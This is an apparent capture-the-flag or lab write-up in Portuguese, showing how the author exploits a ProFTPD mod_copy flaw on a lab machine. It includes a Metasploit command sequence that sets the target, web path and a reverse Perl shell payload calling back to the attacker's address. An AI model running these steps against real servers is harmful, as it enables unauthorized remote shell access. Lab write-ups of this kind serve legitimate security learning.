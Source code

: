 ![nmap](nmap1.png)

Haviam vários vetores de ataque, fui no primeiro que li na tela rsrs.

Ao ver a combinação do ProFTP + Apache, podemos supor que temos permissão de gravação no SITEPATH. Então, se explorarmos o serviço ProFTPD podemos abusar da permissão no Apache SITEPATH, o que nos permitirá obter shell reverso. Mas lógico que tudo isso é automático rs, eu só vou aperta um botão. 

## Exploiting
Usando o `msfconsole` > `search proftp` e encontrei o exploit [modcopy execution](https://www.exploit-db.com/exploits/37262).
```shell
use proftpd_modcopy_exec
set RHOST 192.168.56.210
set TARGETURI /
set SITEPATH /var/www/html/
set payload payload/cmd/unix/reverse_perl
set LHOST 192.168.56.109
exploit
```
{: file="Shell Kali"}
![proftp-exploit.png](proftp-exploit.png)
